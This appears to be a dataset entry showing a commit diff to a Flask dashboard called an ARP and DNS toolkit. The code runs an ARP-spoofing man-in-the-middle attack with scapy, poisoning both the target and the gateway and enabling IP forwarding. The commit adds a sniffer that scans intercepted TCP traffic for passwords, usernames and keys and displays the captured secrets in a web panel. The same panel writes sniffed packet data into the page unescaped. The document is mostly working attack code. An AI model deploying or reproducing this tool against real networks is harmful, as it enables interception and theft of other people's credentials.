

Before and after one commit to khristov8000/arp-dns-analysis-toolkit, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
System Interception Data console

```diff
--- a/app.py
+++ b/app.py
@@ -5,25 +5,28 @@ import scapy.all as scapy
 import sys
 import os
 import signal
+import re
 
 app = Flask(__name__)
 
 # --- GLOBAL STATE (Thread Safe) ---
 STOP_EVENT = threading.Event()
 ATTACK_THREAD = None
+SNIFFER_THREAD = None
 
 # Default Configuration and State Tracking
 STATUS = {
     "state": "IDLE",
     "target": "192.168.1.20",
     "gateway": "192.168.1.1",
-    "interface": "eth0",  # Default interface
+    "interface": "eth0",
     "packets": 0,
     "target_mac": "N/A",
-    "logs": ["System initialized. Ready for command."]
+    "logs": ["[SYSTEM] Initialized. Ready."],
+    "intercepted_data": []
 }
 
-# --- SYSTEM & UTILITY FUNCTIONS ---
+# --- UTILITY FUNCTIONS ---
 
 def log_msg(message):
     """Adds a timestamped message to the global log buffer."""
@@ -32,91 +35,120 @@ def log_msg(message):
     if len(STATUS["logs"]) > 50:
         STATUS["logs"].pop(0)
     STATUS["logs"].append(full_msg)
-    print(full_msg) # Also print to terminal for debugging
+    print(full_msg)
 
 def set_ip_forwarding(value):
-    """Sets the IP forwarding state (1 to enable, 0 to disable). Requires sudo."""
     try:
         with open('/proc/sys/net/ipv4/ip_forward', 'w') as f:
             f.write(str(value))
     except Exception as e:
-        log_msg(f"FATAL: Failed to set IP forwarding. Run script with sudo: {e}")
+        log_msg(f"FATAL: Failed to set IP forwarding: {e}")
         sys.exit(1)
 
 def get_mac(ip):
-    """Sends an ARP request to get the MAC address for a given IP."""
-    # Explicitly use the current interface
     arp_request = scapy.ARP(pdst=ip)
     broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
     arp_request_broadcast = broadcast/arp_request
-
-    # Force interface use and set timeout
     answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False, iface=STATUS["interface"])[0]
-
     return answered_list[0][1].hwsrc if answered_list else None
 
 def spoof(target_ip, spoof_ip, target_mac):
-    """Sends a forged ARP response."""
     packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
     scapy.send(packet, verbose=False, iface=STATUS["interface"])
 
 def restore(destination_ip, source_ip):
-    """Restores the victim's ARP table."""
     destination_mac = get_mac(destination_ip)
     source_mac = get_mac(source_ip)
-
     if not destination_mac or not source_mac:
-        log_msg("[-] WARNING: Could not resolve MACs for clean exit. Manual cleanup required.")
+        log_msg("WARNING: Could not resolve MACs for clean exit.")
         return
-
     packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
     scapy.send(packet, count=4, verbose=False, iface=STATUS["interface"])
+
+# --- SNIFFING LOGIC ---
+
+def packet_callback(packet):
+    if STOP_EVENT.is_set(): return
+
+    if packet.haslayer(scapy.Raw) and packet.haslayer(scapy.TCP):
+        try:
+            payload = packet[scapy.Raw].load.decode('utf-8', errors='ignore')
+
+            keywords = ["pass=", "password", "user=", "username", "login", "secret", "CONFIDENTIAL", "key="]
+            is_sensitive = False
+            captured_secret = ""
+
+            for line in payload.split('\n'):
+                if any(key.lower() in line.lower() for key in keywords):
+                    is_sensitive = True
+                    captured_secret = line.strip()
+                    break
+
+            # Filter for HTTP traffic or Secrets
+            if is_sensitive or "HTTP" in payload:
+                if packet.haslayer(scapy.IP):
+                    src = packet[scapy.IP].src
+                    dst = packet[scapy.IP].dst
+                else:
+                    src = "Unknown"
+                    dst = "Unknown"
+
+                if is_sensitive:
+                    snippet = f"[SECRET] {captured_secret[:60]}"
+                    log_type = "ALERT"
+                else:
+                    snippet = payload.split('\r\n')[0][:60]
+                    log_type = "INFO"
+
+                STATUS["intercepted_data"].append({
+                    "time": time.strftime('%H:%M:%S'),
+                    "src": src,
+                    "dst": dst,
+                    "snippet": snippet,
+                    "type": log_type
+                })
+
+                if is_sensitive:
+                    log_msg(f"[ALERT] CAPTURED CREDENTIALS from {src}!")
+
+        except Exception as e:
+            pass
 
 # --- ATTACK THREAD LOGIC ---
 
 def run_attack_loop(target_ip, gateway_ip):
-    """The main attack loop run in a separate thread."""
-    global ATTACK_THREAD
-
-    # Initial setup for the thread
     STATUS["state"] = "RUNNING"
     STATUS["packets"] = 0
-    log_msg(f"🚀 Attack launched against {target_ip} via {STATUS['interface']}")
+    log_msg(f"[+] Attack launched against {target_ip}")
     set_ip_forwarding(1)
 
-    # ... inside run_attack_loop ...
+    os.system("sysctl -w net.ipv4.conf.all.send_redirects=0 > /dev/null")
+
     try:
         while not STOP_EVENT.is_set():
-            # 1. Get MAC addresses for BOTH targets
             target_mac = get_mac(target_ip)
-            gateway_mac = get_mac(gateway_ip) # This is the Server's MAC
+            gateway_mac = get_mac(gateway_ip)
 
             if target_mac and gateway_mac:
-                # Log success only on first resolution
                 if STATUS["target_mac"] == "N/A":
                     STATUS["target_mac"] = target_mac
-                    log_msg(f"✅ Targets Resolved: Victim={target_mac} | Server={gateway_mac}")
+                    log_msg(f"[+] RESOLVED: Target={target_mac} | Gateway={gateway_mac}")
 
-                # --- POISON BOTH SIDES (The Fix) ---
-
-                # 1. Tell Victim that WE are the Server
                 spoof(target_ip, gateway_ip, target_mac)
-
-                # 2. Tell Server that WE are the Victim
                 spoof(gateway_ip, target_ip, gateway_mac)
 
                 STATUS["packets"] += 2
+                # Packet sent logs removed to reduce spam
             else:
-                log_msg(f"⚠️ Retrying... Could not find both MACs. (Victim: {target_mac}, Server: {gateway_mac})")
+                log_msg(f"[!] WARNING: Target unreachable. Retrying...")
 
             time.sleep(2)
 
     except Exception as e:
-        log_msg(f"CRITICAL THREAD ERROR: {e}")
+        log_msg(f"[!] CRITICAL ERROR: {e}")
 
     finally:
-        # --- CLEANUP ---
-        log_msg("🛑 Stopping thread... Restoring ARP tables.")
+        log_msg("[-] Stopping thread... Restoring ARP tables.")
         restore(target_ip, gateway_ip)
         set_ip_forwarding(0)
         STATUS["state"] = "IDLE"
@@ -127,21 +159,16 @@ def run_attack_loop(target_ip, gateway_ip):
 
 @app.route('/')
 def index():
-    """Renders the main dashboard page."""
-    # Check if a specific interface is configured, default to eth0 if not.
-    if scapy.conf.iface is None:
-         STATUS["interface"] = 'eth0'
+    if scapy.conf.iface is None: STATUS["interface"] = 'eth0'
     return render_template('index.html', data=STATUS)
 
 @app.route('/update')
 def update():
-    """Provides real-time status and logs via AJAX."""
     return jsonify(STATUS)
 
 @app.route('/action', methods=['POST'])
 def action():
-    """Handles START/STOP button clicks."""
-    global ATTACK_THREAD
+    global ATTACK_THREAD, SNIFFER_THREAD
     req = request.json
     action_type = req.get('action')
 
@@ -149,31 +176,31 @@ def action():
         if STATUS["state"] == "RUNNING":
             return jsonify({"status": "error", "message": "Attack already running!"})
 
-        # Update configs from UI
-        STATUS["target"] = req.get('target', STATUS["target"])
-        STATUS["gateway"] = req.get('gateway', STATUS["gateway"])
-        STATUS["interface"] = req.get('interface', STATUS["interface"])
-        scapy.conf.iface = STATUS["interface"] # Set Scapy's interface globally
+        STATUS["target"] = req.get('target')
+        STATUS["gateway"] = req.get('gateway')
+        STATUS["interface"] = req.get('interface')
+        scapy.conf.iface = STATUS["interface"]
 
-        # Start Thread, passing the IPs as arguments
-        ATTACK_THREAD = threading.Thread(target=run_attack_loop,
-                                         args=(STATUS["target"], STATUS["gateway"]))
+        SNIFFER_THREAD = threading.Thread(target=scapy.sniff, kwargs={
+            'iface': STATUS["interface"],
+            'store': 0,
+            'prn': packet_callback
+        })
+        SNIFFER_THREAD.daemon = True
+        SNIFFER_THREAD.start()
+
+        STOP_EVENT.clear()
+        ATTACK_THREAD = threading.Thread(target=run_attack_loop, args=(STATUS["target"], STATUS["gateway"]))
         ATTACK_THREAD.daemon = True
         ATTACK_THREAD.start()
         return jsonify({"status": "success", "message": "Attack launched"})
 
     elif action_type == 'stop':
-        if STATUS["state"] == "IDLE":
-            return jsonify({"status": "error", "message": "No attack running"})
-
-        # Signal the thread to break its loop and clean up
         STOP_EVENT.set()
-        return jsonify({"status": "success", "message": "Stopping attack..."})
+        return jsonify({"status": "success", "message": "Stopping..."})
 
     return jsonify({"status": "error", "message": "Invalid action."})
 
 if __name__ == '__main__':
-    # Initial setup for Kali: set Scapy interface and start server
     scapy.conf.iface = STATUS["interface"]
-    # We must use host='0.0.0.0' for accessibility in the VM
     app.run(host='0.0.0.0', port=5000, debug=False)
--- a/static/style.css
+++ b/static/style.css
@@ -17,7 +17,7 @@ body {
     display: flex;
     justify-content: space-between;
     align-items: center;
-    padding-bottom: 20px;
+    padding-bottom: 0px;
 }
 
 .title {
@@ -51,10 +51,11 @@ body {
 }
 
 /* Status Colors */
-.idle { color: #888; }
-.running { color: #4cff79; }
-.error { color: #ff4f4f; }
+.status-text.idle { color: #888; }
+.status-text.running { color: #4cff79; }
+.status-text.error { color: #ff4f4f; }
 
+.status-dot.idle { background: #555; box-shadow: none; }
 .status-dot.running { background: #4cff79; box-shadow: 0 0 10px #4cff79; }
 .status-dot.error   { background: #ff4f4f; box-shadow: 0 0 10px #ff4f4f; }
 
@@ -62,6 +63,13 @@ body {
 .grid {
     display: grid;
     grid-template-columns: 350px auto;
+    gap: 25px;
+}
+
+/* Right column wrapper */
+.right-column {
+    display: flex;
+    flex-direction: column;
     gap: 25px;
 }
 
@@ -100,6 +108,7 @@ input {
     border-radius: 6px;
     color: #e3e3e3;
     margin-top: 5px;
+    box-sizing: border-box;
 }
 
 .disabled {
@@ -159,13 +168,18 @@ input {
 /* ======= CONSOLE ======= */
 .console {
     background: #0b0c0f;
-    padding: 12px;
-    height: 400px;
+    padding: 10px;
+    height: 180px; /* SMALLER FIXED HEIGHT */
     overflow-y: auto;
     border-radius: 6px;
     font-family: "JetBrains Mono", monospace;
     font-size: 13px;
     border: 1px solid #21242c;
+}
+
+/* NEW: Specific height for the data intercept console */
+.data-intercepts-console {
+    height: 200px; /* MATCHING HEIGHT */
 }
 
 .log-entry {
@@ -178,3 +192,9 @@ input {
 .log-entry.warning { color: #ffd86b; }
 .log-entry.error   { color: #ff4f4f; }
 .log-entry.sent    { color: #67c8ff; }
+
+/* Intercept specific styling */
+.intercept-entry {
+    border-left: 3px solid #ff8c42;
+    padding-left: 8px;
+}
--- a/templates/index.html
+++ b/templates/index.html
@@ -11,7 +11,7 @@
 <div class="container">
 
     <header class="topbar">
-        <h1 class="title">ARP & DNS TOOLKIT <span class="version">PROFESSIONAL EDITION</span></h1>
+        <h1 class="title">ARP & DNS TOOLKIT</h1>
 
         <div class="status-display">
             <div id="status-dot" class="status-dot idle"></div>
@@ -21,7 +21,7 @@
 
     <div class="grid">
 
-        <!-- LEFT PANEL -->
+        <!-- LEFT PANEL (CONFIG) -->
         <div class="panel">
             <h2>Attack Configuration</h2>
 
@@ -46,7 +46,10 @@
             </div>
         </div>
 
-        <!-- RIGHT PANEL -->
+        <!-- RIGHT COLUMN WRAPPER -->
+        <div class="right-column">
+
+            <!-- PANEL 1: METRICS & CONSOLE -->
             <div class="panel logs">
                 <div class="metrics">
                     <div class="metric">
@@ -64,16 +67,26 @@
                     <div class="log-entry">System Initialized. Waiting for commands...</div>
                 </div>
             </div>
+
+            <!-- PANEL 2: SENSITIVE DATA (NEW) -->
+            <div class="panel">
+                <h2 style="color: #ff8c42;">Sensitive Data Intercepts</h2>
+                <div id="data_output" class="console data-intercepts-console">
+                    <div class="log-entry" style="opacity: 0.5;">Waiting for HTTP/Credential traffic...</div>
+                </div>
+            </div>
+
+        </div>
     </div>
 
 </div>
 
 <script>
     function getLogClass(message) {
-        if (message.includes("SUCCESS") || message.includes("Resolved")) return "success";
+        if (message.includes("SUCCESS") || message.includes("RESOLVED")) return "success";
         if (message.includes("WARNING") || message.includes("unreachable")) return "warning";
         if (message.includes("ERROR") || message.includes("FATAL")) return "error";
-        if (message.includes("SENT") || message.includes("Attack Launched")) return "sent";
+        if (message.includes("SENT") || message.includes("Attack launched")) return "sent";
         return "";
     }
 
@@ -95,9 +108,11 @@
         fetch('/update')
         .then(r => r.json())
         .then(data => {
+            // Metrics
             document.getElementById('packet_count').innerText = data.packets;
             document.getElementById('target_mac').innerText = data.target_mac;
 
+            // Status
             const statusText = document.getElementById('status-text');
             const statusDot  = document.getElementById('status-dot');
 
@@ -105,15 +120,40 @@
             statusText.className = "status-text " + data.state.toLowerCase();
             statusDot.className  = "status-dot " + data.state.toLowerCase();
 
+            // Main Console
             const consoleDiv = document.getElementById('console-output');
             consoleDiv.innerHTML = "";
-
             data.logs.slice().reverse().forEach(log => {
                 const div = document.createElement('div');
                 div.className = "log-entry " + getLogClass(log);
                 div.innerText = log;
                 consoleDiv.appendChild(div);
             });
+
+            // Data Intercepts Console
+            const dataDiv = document.getElementById('data_output');
+            dataDiv.innerHTML = "";
+
+            if (data.intercepted_data && data.intercepted_data.length > 0) {
+                data.intercepted_data.slice().reverse().forEach(item => {
+                    const div = document.createElement('div');
+                    div.className = "log-entry intercept-entry";
+
+                    let color = "#ff8c42"; // Default Orange
+
+                    if (item.type === "ALERT") {
+                        color = "#ff4f4f"; // Red
+                        div.style.borderLeft = "3px solid #ff4f4f";
+                        div.style.paddingLeft = "8px";
+                    }
+
+                    // Formatting without icons
+                    div.innerHTML = `<span style="opacity:0.5; margin-right:10px;">[${item.time}]</span> <span style="color:${color};">${item.src} > ${item.dst}:</span> <b style="color:#e3e3e3;">${item.snippet}</b>`;
+                    dataDiv.appendChild(div);
+                });
+            } else {
+                dataDiv.innerHTML = '<div class="log-entry" style="opacity:0.5">Waiting for HTTP traffic...</div>';
+            }
         });
     }
 
```
Lines whose indentation alone changed are shown as unchanged.
